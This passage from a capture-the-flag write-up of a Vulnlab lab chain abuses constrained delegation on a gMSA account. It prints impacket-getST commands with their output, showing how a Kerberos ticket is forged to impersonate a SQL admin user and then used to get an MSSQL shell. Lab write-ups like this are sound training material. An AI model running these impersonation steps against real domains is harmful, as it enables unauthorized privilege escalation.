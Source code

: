 ## Impersonation through Delegation

The account of `GMSA01$@TENGU.VL` had the permission `AllowedToDelegate` set onto `SQL.TENGU.VL` which was shown in the `BloodHound` output above. The user `T1_M.WINTERS@TENGU.VL` was member of the `SQL_ADMINS@TENGU.VL` group.

![](images/2024-03-30_13-42_bloodhound_sql_admins_query.png)

We used this to our advantage and impersonated `T1_M.WINTERS@TENGU.VL` through our permissions as `GMSA01$@TENGU.VL`. To do so we requested a `Kerberos ticket` for `t1_m.winters`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ proxychains -q impacket-getST 'tengu.vl/gmsa01$' -spn 'mssqlsvc/sql.tengu.vl' -hashes ':REDACTED' -impersonate 't1_m.winters'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating t1_m.winters
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in t1_m.winters.ccache
```

We exported it on our box.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ export KRB5CCNAME=`realpath t1_m.winters.ccache`
```

And then used `impacket-mssqlclient` again to authenticate using the exported `Kerberos ticket` to get a `shell` on the `MSSQL instance`.
